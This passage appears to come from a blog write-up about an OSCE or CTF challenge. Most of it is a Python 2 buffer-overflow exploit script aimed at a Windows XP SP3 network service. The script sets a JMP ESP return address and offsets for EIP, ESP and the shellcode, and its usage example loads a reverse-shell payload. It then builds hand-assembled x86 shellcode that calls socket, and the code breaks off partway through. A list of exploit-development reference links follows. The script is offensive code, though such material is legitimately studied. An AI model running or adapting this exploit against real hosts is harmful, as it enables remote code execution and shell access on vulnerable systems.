 ``` python
#!/usr/bin/python

import socket, struct, time, sys

# the start of our collection of supported platforms
targets = [
  { 'Name': 'Windows XP SP3', 'JMPESP': 0x7e4456f7 }
]

if len(sys.argv) != 5:
  print "Usage: {0} <target> <host> <port> <payload>".format(sys.argv[0])
  print "   Targets:"
  for i in range(0, len(targets)):
    print "     {0}: {1}".format(i, targets[i]['Name'])
  print "Eg. {0} 0 127.0.0.1 21 revshell.bin".format(sys.argv[0])
  sys.exit(1)

target = targets[int(sys.argv[1])]
host = sys.argv[2]
port = int(sys.argv[3])
payload_file = sys.argv[4]

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload, port, recv = True):
  print "[*] Sending {0} bytes to {1}:{2}...".format(len(payload), host, port)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  if recv:
    s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365

offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}

print "[*] Attacking {0}:{1} ...".format(host, port)

block1  = ""
# Adjust the stack to prevent it from breaking things in our shellcode
block1 += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
# Get the address of `socket` into EBX
block1 += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
block1 += "\xC1\xEB\x08"                       # SHR EBX, 0x8
# set up the stack for the call to `socket`
block1 += "\xB0\x06"                           # MOV AL, 0x6
block1 += "\x50"                               # PUSH EAX
block1 += "\xB0\x01"                           # MOV AL, 0x1
block1 += "\x50"                               # PUSH EAX
block1 += "\x40"                               # INC EAX
block1 += "\x50"                               # PUSH EAX
# invoke the call to `socket`
block1 += "\xFF\xD3"                           # CALL EBX
# save our socket handle
block1 += "\x89\xC7"                           # MOV EDI, EAX
```

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux